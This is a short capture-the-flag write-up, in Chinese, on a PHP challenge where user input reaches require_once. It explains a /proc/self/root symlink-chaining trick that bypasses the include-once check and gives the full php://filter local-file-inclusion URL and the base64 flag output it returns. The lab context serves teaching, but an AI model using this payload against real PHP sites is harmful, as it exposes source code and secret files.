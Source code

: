 ![[Pasted image 20230212095241.png|500]]

```php
<?php
highlight_file(__FILE__);
require_once 'flag.php';
if(isset($_GET['file'])) {
  require_once $_GET['file'];
}
```

参考这篇博客 [Require_once Bypass](https://blog.rois.io/2020/require_once-bypass/)

![[Pasted image 20230212095417.png|1000]]

`/proc/self/root`是指向`/`的符号链接

![[Pasted image 20230212095650.png|500]]

最多解析40层符号链接，`self`和`root`均为符号链接，因此复制粘贴二十次就到头了

`php`在到头了之后不会报错，而是将前面40个解析出来的实际路径和后面不能继续解析的带有符号链接的路径拼到一块，当成原始路径。因此在记录已包含文件路径的哈希表中自然查不到该路径，绕过了`once`

```
/?file=php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```

```
PD9waHAKCiRmbGFnID0gJ2ZsYWd7YThjNTFkMzgtOGZhNi00ZjkyLWJiYTYtYTQ4N2I3YmY1ZDkzfSc7Cg==
```

![[Pasted image 20230212101412.png|1000]]

#Web #PHP #LFI #linux #bypass #symlink